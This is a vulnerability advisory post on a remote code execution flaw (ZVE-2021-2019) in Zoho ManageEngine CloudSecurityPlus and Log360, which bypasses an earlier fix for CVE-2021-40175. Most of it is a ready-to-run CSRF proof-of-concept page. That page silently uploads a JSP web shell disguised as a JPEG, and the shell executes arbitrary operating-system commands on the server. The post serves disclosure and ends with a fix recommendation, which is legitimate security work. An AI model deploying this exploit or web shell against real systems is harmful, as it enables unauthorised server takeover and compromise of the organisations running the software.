 ```yaml
---
layout: post
title:  "Zoho ManageEngine CloudSecurityPlus - Remote Code Execution via Security Misconfiguration"
tag: advisory
excerpt_separator: <!--more-->

---
```


Zoho ManageEngine CloudSecurityPlus before Build 4117 allows execution of arbitrary code via security misconfiguration.  
<!--more-->

### **Identifiers**
 - ZVE-2021-2019

### **Affected Products & Versions**
 - CloudSecurityPlus - 4.1.1.7
 - Log360 - 5.2.2

### **Affected Instance(s)**
 - /WC/ADSPersonalize.do?mTCall=updatePersonalizeSettings

### **Advisory URL**
 - Not Available from Vendor

### **Technical details**
It was observed that, to fix the [CVE-2021-40175](https://sahildhar.github.io/blogpost/Zoho-ManageEngine-Log360-RCE-via-Arbitrary-File-Upload/) issue, the security configurations gets applied to url paths only but not on the struts action of the affected endpoint. This allows an attacker to bypass the mitigations applied for [CVE-2021-40175](https://sahildhar.github.io/blogpost/Zoho-ManageEngine-Log360-RCE-via-Arbitrary-File-Upload/) issue, there by executing arbitrary code by uploading malicious files.


### **Impact**:
The impact in this case is 1-click RCE, as the affected endpoints reqiured for exploitation lacks CSRF protection as well.


### **Root Cause Analysis**:

In the following code-snippets from `security.xml` file, observe that the application applies custom security configuration via URL paths.

  ```xml
  <url path="/RestAPI/WC/ADSPersonalize" duration="1" threshold="10" lock-period="1" method="get,post" dynamic-params="true" csrf="true">
    <file name="LOGO_PATH" content-type-name="image" max-size="5000" allowed-extensions="gif,jpeg,jpg,png,bmp">
        <filename regex="customFileNameFilter" max-len="255" />
    </file>
    <file name="FAVICON_PATH" content-type-name="image" max-size="5000" allowed-extensions="ico">
        <filename regex="customFileNameFilter" max-len="255" />
    </file>
    <param name="BROWSER_TITLE" type="String" max-len="-1" />
  </url>
```

The above configuration can bypassed by accessing the struts action route directly.

### **Exploitation**:
Following POC exploit code when executed will write a jsp file under `http://<endpoint_ip>/images/adsf/common/logos/` folder.

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/log360server\/WC\/ADSPersonalize.do?mTCall=updatePersonalizeSettings", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------14802732823662");
        xhr.withCredentials = true;
        var body = "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"LOGO_PATH\"; filename=\"shell.jpg.jsp\"\r\n" + 
          "Content-Type: image/jpeg\r\n" + 
          "\r\n" + 
          "\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x01,\x01,\x00\x00\xff\xe1\x00fExif\x00\x00MM\x00*\x00\x00\x00\x08\x00\x04\x01\x1a\x00\x05\x00\x00\x00\x01\x00\x00\x00\x3e\x01\x1b\x00\x05\x00\x00\x00\x01\x00\x00\x00F\x01(\x00\x03\x00\x00\x00\x01\x00\x02\x00\x00\x011\x00\x02\x00\x00\x00\x10\x00\x00\x00N\x00\x00\x00\x00\x00\x00\x01,\x00\x00\x00\x01\x00\x00\x01,\x00\x00\x00\x01paint.ne\x84\xff\x00\xf0\xc3\xdf\xf0\x8f\x7f\xc2\xcf\xf8\x0f\xf1\x7f\xe1\xe7\xf6\xff\x00\xfc4\xb7\xf6\xb7\xf6\x1f\xfc&\xbf\x0f\xbcC\xe1\xaf\xed\x8f\xec\xaf\xf8P\x1ag\xf6\x9f\xf6g\xf6\x9f\xdb\x7f\xb3\xff\x00\xb4\xb4\xff\x00\xb6y\x1ff\xfbm\xa7\x99\xe7\xc6P\x07\xff\xd9\r\n" + 
          "\x3c%@ page import=\"java.util.*,java.io.*\"%\x3e\r\n" + 
          "\x3c%\r\n" + 
          "%\x3e\r\n" + 
          "\x3cHTML\x3e\x3cBODY\x3e\r\n" + 
          "Commands with JSP\r\n" + 
          "\x3cFORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"\x3e\r\n" + 
          "\x3cINPUT TYPE=\"text\" NAME=\"cmd\"\x3e\r\n" + 
          "\x3cINPUT TYPE=\"submit\" VALUE=\"Send\"\x3e\r\n" + 
          "\x3c/FORM\x3e\r\n" + 
          "\x3cpre\x3e\r\n" + 
          "\x3c%\r\n" + 
          "if (request.getParameter(\"cmd\") != null) {\r\n" + 
          "    out.println(\"Command: \" + request.getParameter(\"cmd\") + \"\x3cBR\x3e\");\r\n" + 
          "    Process p;\r\n" + 
          "    if ( System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") != -1){\r\n" + 
          "        p = Runtime.getRuntime().exec(\"cmd.exe /C \" + request.getParameter(\"cmd\"));\r\n" + 
          "    }\r\n" + 
          "    else{\r\n" + 
          "        p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));\r\n" + 
          "    }\r\n" + 
          "    OutputStream os = p.getOutputStream();\r\n" + 
          "    InputStream in = p.getInputStream();\r\n" + 
          "    DataInputStream dis = new DataInputStream(in);\r\n" + 
          "    String disr = dis.readLine();\r\n" + 
          "    while ( disr != null ) {\r\n" + 
          "    out.println(disr);\r\n" + 
          "    disr = dis.readLine();\r\n" + 
          "    }\r\n" + 
          "}\r\n" + 
          "%\x3e\r\n" + 
          "\x3c/pre\x3e\r\n" + 
          "\x3c/BODY\x3e\x3c/HTML\x3e\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"BROWSER_TITLE\"\r\n" + 
          "\r\n" + 
          "ManageEngine Log360\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"FAVICON_PATH\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"ENABLE_FORGOT_PWD\"\r\n" + 
          "\r\n" + 
          "true\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"SELECT_LANGUAGE\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"TIME_ZONE\"\r\n" + 
          "\r\n" + 
          "Asia/Muscat\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"DATE_TIME_FORMAT\"\r\n" + 
          "\r\n" + 
          "yyyy/MM/dd HH:mm:ss\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"THEME_COLOR\"\r\n" + 
          "\r\n" + 
          "green\r\n" + 
          "-----------------------------14802732823662--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

In the following screenshot, observe that the application executes the jsp code on the server.
![](/assets/images/ZVE-2021-2019/1.png)

### **Recommendation**:
Enforce the security configuration for the affected endpoint.